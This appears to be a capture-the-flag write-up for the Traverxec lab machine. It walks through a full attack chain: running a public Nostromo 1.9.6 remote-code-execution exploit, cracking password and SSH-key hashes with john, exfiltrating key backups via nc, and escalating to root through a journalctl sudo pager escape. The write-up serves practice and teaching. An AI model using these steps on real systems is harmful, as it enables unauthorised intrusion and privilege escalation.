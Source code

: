 # Traverxec

## Gaining Access

```
$ nmap -p- --min-rate 5000 10.129.85.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 10:24 EDT
Nmap scan report for 10.129.85.183
Host is up (0.0079s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### David White

Port 80 hosts a Portfolio site for a David White:

<figure><img src="../../../.gitbook/assets/image (10) (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

Here are the HTTP headers when visiting the site:

```http
HTTP/1.1 200 OK
Date: Thu, 04 May 2023 14:25:54 GMT
Server: nostromo 1.9.6
Connection: close
Last-Modified: Fri, 25 Oct 2019 21:11:09 GMT
Content-Length: 15674
Content-Type: text/html
```

This version of Nostromo has an RCE vulnerability:

```
$ searchsploit nostromo             
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (M | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                     | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command | linux/remote/35466.sh
----------------------------------------------------------- ---------------------------------
```

We can verify that it works by running it:

```
$ python2 47837.py 10.129.85.183 80 id


                                        _____-2019-16278
        _____  _______    ______   _____\       _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
 /     / /____/||\    \  \    |/|    |__ |___|/
|     | |____|/ \ \    \ |    | |       |     |  _____   \|     \|    | |     __/ __
|\     \|\    \   |\         /| |\    \  /  | \_____\|    |   | \_______/ | | \____\/    |
| |     /____/|    \ |     | /  | |    |____/|
 \|_____|    ||     \|_____|/    \|____|   | |
        |____|/                        |___|/




HTTP/1.1 200 OK
Date: Thu, 04 May 2023 14:31:57 GMT
Server: nostromo 1.9.6
Connection: close


uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then, we can get an easy reverse shell by using a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (39) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Public WWW

We can't capture the user flag yet. Within the `/var/nostromo` directory, there are some `conf` folders.

```
www-data@traverxec:/var/nostromo$ ls -la
total 24
drwxr-xr-x  6 root     root   4096 Oct 25  2019 .
drwxr-xr-x 12 root     root   4096 Oct 25  2019 ..
drwxr-xr-x  2 root     daemon 4096 Oct 27  2019 conf
drwxr-xr-x  6 root     daemon 4096 Oct 25  2019 htdocs
drwxr-xr-x  2 root     daemon 4096 Oct 25  2019 icons
drwxr-xr-x  2 www-data daemon 4096 May  4 10:22 logs

www-data@traverxec:/var/nostromo/conf$ ls -la
total 20
drwxr-xr-x 2 root daemon 4096 Oct 27  2019 .
drwxr-xr-x 6 root root   4096 Oct 25  2019 ..
-rw-r--r-- 1 root bin      41 Oct 25  2019 .htpasswd
-rw-r--r-- 1 root bin    2928 Oct 25  2019 mimes
-rw-r--r-- 1 root bin     498 Oct 25  2019 nhttpd.conf
```

We can try to crack the hash within `.htpasswd`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)     
1g 0:00:00:41 DONE (2023-05-04 10:36) 0.02395g/s 253371p/s 253371c/s 253371C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Afterwards, we can read the configuration files.

```
# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

I searched a bit on Nostromo and this configuration, and this:

{% embed url="https://book.dragonsploit.com/web-application-testing/nostromo" %}

Basically, this allows for us to view the user's home directory by accessing `~david`. When accessed, this is what I get:

<figure><img src="../../../.gitbook/assets/image (40) (7).png" alt=""><figcaption></figcaption></figure>

There was also a hint that a `public_www` exists in the user's directory.&#x20;

```
www-data@traverxec:/var/nostromo$ cd /home/david/public_www
www-data@traverxec:/home/david/public_www$ ls -la
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

Within this, there was a file that contained SSH Identity files.

```
www-data@traverxec:/home/david/public_www/protected-file-area$ ls -la
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz
```

I transferred this back to my machine via `nc`, and then opened it with `tar`.&#x20;

```
$ tar zxvf backup.tgz       
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

The `id_rsa` key was password protected, but since we have a password from earlier, we can `ssh2john` > `john` it.&#x20;

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2023-05-04 10:42) 100.0g/s 16000p/s 16000c/s 16000C/s carolina..david
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Then, we can use `openssl` with the password to write it and SSH in.

```
$ openssl rsa -in id_rsa -out decrypted        
Enter pass phrase for id_rsa:
writing RSA key
$ chmod 600 decrypted; ssh -i decrypted david@10.129.85.183
```

### Root Shell

There are some interesting files within the user's home directory.

```
david@traverxec:~/bin$ ls -la
total 16
drwx------ 2 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
```

Here's the `bash` script contents:

```bash
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It seems that the user can execute `sudo` for `journalctl`. Based on GTFOBins, we just need to run this.&#x20;

```bash
sudo journalctl
!/bin/sh
```

However, because we don't have the credentials to run `sudo`, what we can do is execute the `sudo` command and then run `!/bin/sh`.

```
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image (22) (4) (2).png" alt=""><figcaption></figcaption></figure>
